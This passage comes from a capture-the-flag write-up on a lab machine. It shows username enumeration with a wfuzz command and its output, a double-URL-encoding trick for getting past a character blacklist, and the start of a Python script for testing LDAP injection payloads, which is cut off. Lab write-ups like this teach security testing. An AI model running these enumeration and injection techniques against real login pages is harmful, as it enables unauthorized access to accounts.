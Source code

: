 The server return an invalid user error message whenever I use an invalid user ID:

![](/assets/images/htb-writeup-ctf/invaliduser.png)

### Username enumeration

To enumerate the users on the system, I use wfuzz with a wordlist. Luckily, the login page doesn't appear to be rate-limited so I can quickly scan through the wordlists. This part took a while though, I had to try various wordlists from seclists since my first picks didn't contain that user.

```
# wfuzz -c -w /usr/share/seclists/Usernames/Honeypot-Captures/multiplesources-users-fabian-fingerle.de.txt --hs "not found" -d "inputUsername=FUZZ&inputOTP=12345" -u http://ctf.htb/login.php

000003:  C=200     68 L	     229 W	   2810 Ch	  "!@#"
000004:  C=200     68 L	     229 W	   2810 Ch	  "!@#%"
000005:  C=200     68 L	     229 W	   2810 Ch	  "!@#%^"
000006:  C=200     68 L	     229 W	   2810 Ch	  "!@#%^&"
000011:  C=200     68 L	     229 W	   2810 Ch	  "*****"
000007:  C=200     68 L	     229 W	   2810 Ch	  "!@#%^&*"
000066:  C=200     68 L	     229 W	   2810 Ch	  "123456*a"
000008:  C=200     68 L	     229 W	   2810 Ch	  "!@#%^&*("
000009:  C=200     68 L	     229 W	   2810 Ch	  "!@#%^&*()"
005122:  C=200     68 L	     229 W	   2810 Ch	  "Ch4ng3m3!"
005724:  C=200     68 L	     229 W	   2810 Ch	  "*%�Cookie:"
009378:  C=200     68 L	     229 W	   2810 Ch	  "!!Huawei"
011498:  C=200     68 L	     231 W	   2822 Ch	  "ldapuser"     <------
[...]
```

Based on the wfuzz output, I notice that some of the characters seem to be blacklisted by the system. Whenever I use the following characters, the page doesn't return any message at all: `! & * () = \ | <> ~	`

The only valid user I found is: `ldapuser`. When I try that user on the login page, I get a `Cannot login` error message instead of `User not found`.

![](/assets/images/htb-writeup-ctf/cannotlogin.png)

### Testing for LDAP injection

Now that I have the username, I can guess the next part involves LDAP injection. I can get around the blacklisting of the characters by using double URL encoding: `)` becomes `%2529` instead of `%29`.

I made a quick script to test different payloads. The script URL encodes the payload twice (once with `urllib.quote` and the other one automatically with the `post` method).

```python
#!/usr/bin/python

import re
import requests
import urllib

def main():	
	while True:
		cmd = raw_input("> ")

		data = {
			"inputUsername": urllib.quote(cmd),
			"inputOTP": "12345",
		}

		proxy = {"http": "http://127.0.0.1:8080"}

```